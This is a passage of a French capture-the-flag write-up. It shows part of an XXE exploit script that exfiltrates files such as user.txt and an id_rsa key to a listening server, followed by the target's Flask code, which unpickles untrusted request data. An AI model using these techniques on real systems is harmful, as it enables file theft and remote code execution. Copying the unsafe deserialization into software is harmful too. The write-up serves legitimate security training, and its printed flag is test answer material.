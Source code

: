 ```python
    text = response.text.split("Author: ", 1)[1].rsplit("Subject:", 1)[0].strip()
    print(text)
```

La difficulté d'exploitation des failles XXE réside dans le fait qu'il faille gérer à la fois l'envoi du XML, le contenu de la DTD qui contient le nom du fichier à exfiltrer et le serveur web en écoute pour les dumps.  

Ici le code se charge des deux premiers problèmes, pour le reste on peut laisser un *http.server* tourner en background.  

```plain
$ python3 get_file.py /home/roosa/user.txt
c5808e1643e801d40f09ed87cdecc67b
```

Il est aussi possible de récupérer la clé *id\_rsa* de l'utilisateur malheureusement elle n'est pas utilisable (le serveur demande un mot de passe) peut-être (?) en raisons de permissions trop laxistes sur le fichier.  

Step Into The Realm
-------------------

On a la chance de disposer du chemin pour le script *feed.py* (*/home/roosa/deploy/src*) donc ce dernier est facilement récupérable :)  

```python
def uploaded_file(filename):
    return send_from_directory(Config.UPLOAD_FOLDER,
                               filename)

@app.route("/")
def xss():
    return template('index.html')

@app.route("/feed")
def fakefeed():
   return send_from_directory(".","devsolita-snapshot.png")

@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']

## TODO: VERY important! DISABLED THIS IN PRODUCTION
#app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
# TODO: Replace run-gunicorn.sh with real Linux service script
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')

if __name__ == "__main__":
  app.run(host='0.0.0,0', Debug=True)
```
